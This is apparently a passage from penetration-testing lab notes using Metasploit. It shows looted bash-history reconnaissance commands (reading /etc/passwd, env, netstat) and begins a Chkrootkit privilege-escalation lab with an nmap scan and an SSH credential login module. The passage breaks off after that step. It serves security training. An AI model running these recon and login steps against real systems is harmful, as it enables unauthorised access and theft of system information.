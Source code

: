 ![Metasploit - post/linux/gather/enum_users_history](.gitbook/assets/image-20230422130408774.png)

```bash
loot
cat /root/.msf4/loot/20230422110345_Linux_PostExp_192.215.55.3_linux.enum.users_227379.txt

    whoami
    cat /etc/passwd
    cat /etc/*issue
    cat /etc/*release
    uname -a
    ip a s
    netstat -antp
    ss -tnl
    ps aux
    env
```

------

## Lab 2 - Privilege Escalation

> 🔬 [Privilege Escalation - Rootkit Scanner](https://attackdefense.com/challengedetails?cid=1396)
>
> - Target IP: `192.15.244.3`
> - Exploit a vulnerable **Rootkit Scanner** and escalate privileges to root user
> - [Chkrootkit 0.49 - Local Privilege Escalation](https://www.exploit-db.com/exploits/33899)
> - SSH Credentials: `jackie`:`password`

```bash
ip -br -c a
	192.15.244.2/24
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.15.244.3
setg RHOST 192.15.244.3
workspace -a Linux_Privesc
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.15.244.3
```

```bash
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
```

### Exploitation - SSH

```bash
search ssh_login
use auxiliary/scanner/ssh/ssh_login
options
set USERNAME jackie
set PASSWORD password
run
```
